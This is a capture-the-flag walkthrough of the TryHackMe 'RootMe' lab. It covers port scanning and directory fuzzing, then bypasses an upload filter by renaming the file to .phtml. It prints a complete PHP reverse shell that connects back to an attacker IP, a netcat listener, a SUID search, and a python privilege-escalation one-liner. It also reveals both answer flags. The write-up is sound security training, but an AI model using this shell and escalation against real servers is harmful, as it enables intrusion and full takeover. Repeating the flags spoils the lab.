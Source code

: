 # RootMe

Question: 
`Scan the machine, how many ports are open?`

```sh
nmap -sV $ip                         

Nmap scan report for $ip
Host is up (0.084s latency).
Not shown: 998 closed tcp ports (reset)

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Answer: 
`2` Ports are open.

<br/>

Question:
`What version of Apache is running?`

Answer:
`2.4.29` is the correct Version.

<br/>

Question:
`What service is running on port 22?`

Answer:
`SSH` is the service which is also the default Port for SSH.

<br/>

Question:
`What is the hidden directory?`

```sh
ffuf -u http://$ip/FUZZ -w ../../webhacking/wordlists/directory_scanner/common.txt 
          ___     ___              ___
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://$ip/FUZZ
 :: Wordlist         : FUZZ: /home/kali/webhacking/wordlists/directory_scanner/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 2350ms]
    * FUZZ: .htpasswd

[Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 3353ms]
    * FUZZ: .htaccess

[Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 3353ms]
    * FUZZ: .hta

[Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 69ms]
    * FUZZ: css

[Status: 200, Size: 616, Words: 115, Lines: 26, Duration: 79ms]
    * FUZZ: index.php

[Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 74ms]
    * FUZZ: js

[Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 69ms]
    * FUZZ: panel

[Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 71ms]
    * FUZZ: server-status

[Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 80ms]
    * FUZZ: uploads

:: Progress: [4613/4613] :: Job [1/1] :: 542 req/sec :: Duration: [0:00:11] :: Errors: 0 ::
```

Answer:
`/panel/` seems to be the hidden directory.

<br/>

Question:
What is the content of `user.txt`?

To get this we need to get a reverse shell to the machine. For the reverse shell I used a simple PHP script but it seems that normal a `.php` file is blocked by the system. 
To bypass this we rename the `.php` file to `.phtml` which bypasses the security and let's us upload the reverse shell. 

Reverse Shell by PentestMonkey:
```php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.0.0.1';  // Your IP
$port = 9999;       // Your PORT
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
?> 
```

NetCat Listener for rev shell:
```sh
nc -lnvp 9999
``` 

Answer:
`THM{y0u_g0t_a_sh3ll}` seems to be the content for `user.txt`.

<br/>

Question:
Find a file with weird SUID permission:

For this we use a simple `find` command
```sh
find / -user root -perm /4000
```

Answer:
`/usr/bin/python` seems to be fun to play with.

<br/>

The next Step is to escalate priviledges which is not so hard because we found an exploit for this on https://gtfobins.github.io/gtfobins/python/.
```sh
python -c 'import os; os.execl("/bin/sh", "sh", "-p")’
```

Question:
What is the content of `root.txt`?

Answer:
`THM{pr1v1l3g3_3sc4l4t10n}` is the content of `root.txt`.

